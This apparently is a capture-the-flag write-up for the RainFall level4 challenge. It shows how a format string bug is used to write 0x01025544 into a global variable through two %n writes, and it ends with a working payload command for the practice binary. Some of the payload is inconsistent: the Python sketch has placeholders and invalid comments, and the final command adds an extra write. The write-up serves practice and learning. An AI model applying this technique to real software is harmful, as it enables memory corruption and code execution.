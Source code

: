 We see that we have a format string exploit that is vulnerable

However, the value to write to m, the global variable, is `16930116`. This is way bigger than the size of our buffer

Also, printf is called in a function p, which is another scope than where your buffer is located

First let's get the address of m

```console
level4@RainFall:~$ readelf -s level4 | grep m
66: 08049810     4 OBJECT  GLOBAL DEFAULT   25 m
```

Address of m: `0x08049810` = `\x10\x98\x04\x08`
Address of m + 2: `0x08049810 + 2` = `0x08049812` = `\x12\x98\x04\x08`

## How to write `16930116` at m ??

value to write in m: `16930116` = `0x01025544`

Lets do 2 writes!

value 1: `0x0000 5544` = `21828` at `m`
value 2: `0x0001 0102` = `258` at `m + 2`

YYYY YYY1 | 0102 5544 | ZZZZ ZZZZ


`%VALUEd$`: put nb of paddings (whitespace) equal to VALUE

```python
exploit = ""
exploit += "\x10\x98\x04\x08"	//cible 1
exploit += "\x12\x98\x04\x08"	//cible 2
exploit += "%?$21820x"			//padding to get to value 1 (21828 - 8 = 21820)
exploit += "%?$n"				//write cible 1
exploit += "%?$43966x"			//paddding to get to value 2 (65794 - 21820 - 8 = 43966)
exploit += "%? + 1 $n"			//write cible2
```


```bash
(python -c 'print ("\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%12$n" + "%12$21820x" + "%12$n" + "%12$43966x" + "%13$n")'; cat) | ./level4
```
